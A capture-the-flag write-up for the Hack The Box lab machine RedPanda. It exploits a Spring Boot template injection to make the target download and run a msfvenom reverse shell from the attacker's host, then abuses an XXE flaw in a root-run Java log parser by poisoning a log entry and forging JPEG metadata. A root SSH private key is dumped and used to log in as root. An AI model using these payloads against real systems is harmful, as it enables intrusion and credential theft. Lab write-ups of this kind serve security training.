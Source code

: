 # Target
| Category          | Details                                             |
|-------------------|-----------------------------------------------------|
| 📝 **Name**       | [RedPanda](https://app.hackthebox.com/machines/481) |  
| 🏷 **Type**       | HTB Machine                                         |
| 🖥 **OS**         | Linux                                               |
| 🎯 **Difficulty** | Easy                                                |
| 📁 **Tags**       | Java, Spring Boot, SSTI, XXE                        |

# Scan
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Red Panda Search | Made with Spring Boot
```

# Attack path
1. [Gain initial foothold using reverse shell connection spawned with RCE due to SSTI in web application](#gain-initial-foothold-using-reverse-shell-connection-spawned-with-rce-due-to-ssti-in-web-application)
2. [Escalate to `root` user using SSH private key exfiltrated with XXE](#escalate-to-root-user-using-ssh-private-key-exfiltrated-with-xxe)

### Gain initial foothold using reverse shell connection spawned with RCE due to SSTI in web application

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB RedPanda]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x86/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x86/meterpreter/reverse_tcp
```

#### Generate and host `linux/x86/meterpreter/reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB RedPanda]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: shell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Download and execute generated reverse shell using SSTI
```
LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
curl -s http://$TARGET:8080/search -d "name=*{T(java.lang.Runtime).getRuntime().exec(new String[]{\"/bin/sh\", \"-c\", \"wget -P /tmp http://$LHOST:8000/shell;chmod 777 /tmp/shell;/tmp/shell\"})}" -o /dev/null
```

#### Gain foothold with reverse shell connection
```
[*] Sending stage (1017704 bytes) to 10.129.227.207
[*] Meterpreter session 1 opened (10.10.14.157:4444 -> 10.129.227.207:42460) at 2025-06-20 13:18:02 +0200

meterpreter > getuid
Server username: woodenk
```

### Escalate to `root` user using SSH private key exfiltrated with XXE

#### Identify `final-1.0-jar-with-dependencies.jar` being periodically run by `root`
`pspy` shows `root` periodically running `java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar`
```
2025/06/20 11:48:01 CMD: UID=0     PID=2897   | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
```

#### Identify Path traversal and XXE vulnerabilities in `LogParser`
Due to path traversal in 43 and 104 we can prepare .jpg payload with forged `Artist` metadata and point it in `/opt/panda_search/redpanda.log` to trigger XXE in 61.
```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat -n /opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java
<SNIP>
    23      public static Map parseLog(String line) {
    24          String[] strings = line.split("\\|\\|");
    25          Map map = new HashMap<>();
    26          map.put("status_code", Integer.parseInt(strings[0]));
    27          map.put("ip", strings[1]);
    28          map.put("user_agent", strings[2]);
    29          map.put("uri", strings[3]);
<SNIP>
    41      public static String getArtist(String uri) throws IOException, JpegProcessingException
    42      {
    43          String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    44          File jpgFile = new File(fullpath);
    45          Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    46          for(Directory dir : metadata.getDirectories())
    47          {
    48              for(Tag tag : dir.getTags())
    49              {
    50                  if(tag.getTagName() == "Artist")
    51                  {
    52                      return tag.getDescription();
    53                  }
    54              }
    55          }
    56
    57          return "N/A";
    58      }
    59      public static void addViewTo(String path, String uri) throws JDOMException, IOException
    60      {
<SNIP>
    61          SAXBuilder saxBuilder = new SAXBuilder();
<SNIP>    
    90      public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
    91          File log_fd = new File("/opt/panda_search/redpanda.log");
<SNIP>
   100              Map parsed_data = parseLog(line);
   101              System.out.println(parsed_data.get("uri"));
   102              String artist = getArtist(parsed_data.get("uri").toString());
   103              System.out.println("Artist: " + artist);
   104              String xmlPath = "/credits/" + artist + "_creds.xml";
   105              addViewTo(xmlPath, parsed_data.get("uri").toString());
<SNIP>
```

#### Spawn stable shell
```
meterpreter > shell
Process 2423 created.
Channel 2 created.
/usr/bin/script -qc /bin/bash /dev/null
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

#### Prepare `payload_creds.xml` with XXE for `/root/.ssh/id_rsa` extraction
```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat <<'EOF'> /tmp/payload_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE poc [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<root>&xxe;</root>
EOF
```

#### Prepare `payload.jpg` with `Artist` metadata pointing to XXE payload
Payload prepared with following Python script: 
```python
from PIL import Image
import piexif

exif = piexif.dump({"0th": {piexif.ImageIFD.Artist: b"../tmp/payload"}})
Image.new("RGB", (1, 1), color="white").save("payload.jpg", exif=exif)
```

```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ echo \
"/9j/4AAQSkZJRgABAQAAAQABAAD/4QAxRXhpZgAATU0AKgAAAAgAAQE7AAIAAAAPAAAAGgAAAAAu
Li90bXAvcGF5bG9hZAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSEw8UHRofHh0aHBwgJC4n
ICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwhMjIyMjIyMjIyMjIy
MjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAARCAABAAEDASIAAhEBAxEB
/8QAHwAAAQUBAQEBAQEAAAAAAAAAAAECAwQFBgcICQoL/8QAtRAAAgEDAwIEAwUFBAQAAAF9AQID
AAQRBRIhMUEGE1FhByJxFDKBkaEII0KxwRVS0fAkM2JyggkKFhcYGRolJicoKSo0NTY3ODk6Q0RF
RkdISUpTVFVWV1hZWmNkZWZnaGlqc3R1dnd4eXqDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKz
tLW2t7i5usLDxMXGx8jJytLT1NXW19jZ2uHi4+Tl5ufo6erx8vP09fb3+Pn6/8QAHwEAAwEBAQEB
AQEBAQAAAAAAAAECAwQFBgcICQoL/8QAtREAAgECBAQDBAcFBAQAAQJ3AAECAxEEBSExBhJBUQdh
cRMiMoEIFEKRobHBCSMzUvAVYnLRChYkNOEl8RcYGRomJygpKjU2Nzg5OkNERUZHSElKU1RVVldY
WVpjZGVmZ2hpanN0dXZ3eHl6goOEhYaHiImKkpOUlZaXmJmaoqOkpaanqKmqsrO0tba3uLm6wsPE
xcbHyMnK0tPU1dbX2Nna4uPk5ebn6Onq8vP09fb3+Pn6/9oADAMBAAIRAxEAPwD3+iiigD//2Q==" \
| base64 -d > /tmp/payload.jpg
```

#### Poison `redpanda.log` to trigger XXE
```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ echo "200||127.0.0.1||UserAgent||/../../../../../../tmp/payload.jpg" > /opt/panda_search/redpanda.log
```

#### Wait for XXE to inject `root` SSH private key
```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat /tmp/payload_creds.xml
cat /tmp/payload_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE poc>
<root>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</root>
```

#### Exfiltrate and use SSH private key to escalate to root
```
┌──(magicrc㉿perun)-[~/attack/HTB RedPanda]
└─$ { cat <<'EOF'> redpanda_id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
EOF
} && chmod 600 redpanda_id_rsa && ssh root@$TARGET -i redpanda_id_rsa
<SNIP>
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)
```